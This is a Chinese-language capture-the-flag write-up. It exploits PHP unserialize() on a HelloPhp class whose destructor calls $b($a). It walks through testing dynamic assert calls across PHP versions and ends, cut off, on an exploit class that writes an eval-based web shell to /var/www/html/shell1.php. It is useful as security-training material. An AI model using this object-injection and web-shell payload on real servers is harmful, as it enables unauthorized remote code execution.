 访问拿到源码

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

很明显的反序列化，关键是\$b变量需要传入一个回调函数的名字，并且这个函数能够接受一个参数。

尝试了下shell_exec等命令执行函数，和别的容器一样估计都上了disable_function。

能代码执行的剩下了eval和assert，我们知道eval在无法动态调用的，assert在php7的高版本下似乎也是不行的。但这里环境时可以的。

测试代码


```php
<?php
$b='assert';
$a='var_dump(scandir("/"));';
$b($a);
?>
```

php7.021下的结果
![image.png](https://i.loli.net/2020/04/23/sMfHbNvo7UAVeaI.png)

php7.1下的结果
![image.png](https://i.loli.net/2020/04/23/pwoGVkR1nJFtaHf.png)

而题目是PHP/7.0.33（X-Powered-By: PHP/7.0.33）

我们试一下。
```php
<?php
class HelloPhp
{
    public $a;
    public $b;
    public function __construct()
    {
        $this->a = "file_put_contents('/var/www/html/shell1.php','<?php echo md5(1);@eval(\$_POST[\'whd\']);?>');";
        $this->b = "assert";
    }
```